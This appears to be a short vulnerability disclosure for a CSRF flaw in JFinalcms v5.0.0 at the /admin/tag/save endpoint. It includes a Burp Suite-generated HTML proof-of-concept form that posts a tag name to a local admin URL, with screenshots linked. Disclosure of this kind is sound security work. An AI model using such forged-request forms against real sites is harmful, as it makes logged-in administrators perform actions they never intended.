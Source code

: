 Author：MengYang
target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/tag/save


![图片](https://github.com/cui2shark/cms/assets/52313275/625ccf4a-bf8c-49bd-bfb7-d2fd790c7ed7)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/dd4ab549-ec56-4b07-9063-cb6c278db262)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/tag/save" method="POST">
      <input type="hidden" name="name" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/183e4b23-8295-4728-9bcf-70bc29b0fb45)
